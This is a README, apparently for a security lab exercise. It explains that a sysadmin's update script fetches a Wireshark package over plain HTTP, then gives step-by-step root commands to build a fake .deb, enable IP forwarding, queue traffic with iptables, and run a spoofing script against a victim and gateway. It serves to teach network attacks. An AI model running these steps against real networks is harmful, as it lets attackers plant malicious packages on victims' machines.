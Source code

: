 #   Vulnerability

There is a vulnerability on the sysadmin's update script: While most of the URLs used to download the packages have HTTPS as scheme, the one to wireshark_3.0.5-1_amd64.deb is HTTP, so it is not encrypted.

#   Attack

The attack consists in:

1. Building a fake debian package, that has the same metadata (name, version, dependencies, etc.) as the real one.
2. Spoofing, to be a man-in-the-middle of the gateway and the victim.
3. Intercepting the packet addressed to the victim that contains the original package as payload.
4. Replacing the payload by the fake debian package.
5. Delivering this modified packet to the victim instead.

##  Instructions

1. Build the fake package:

`equivs-build dummy.equivs`

2. Enable IP forwarding (as root):

`echo 1 > /proc/sys/net/ipv4/ip_forward`

3. Initialise the Netfilterqueue (as root):

`iptables -I FORWARD -j NFQUEUE --queue-num [QUEUE_NUM]`

4. Run debianspoof (as root):

`python3 debianspoof.py -v [VICTIM_IP] -g [GATEWAY_IP] -q [QUEUE_NUM]`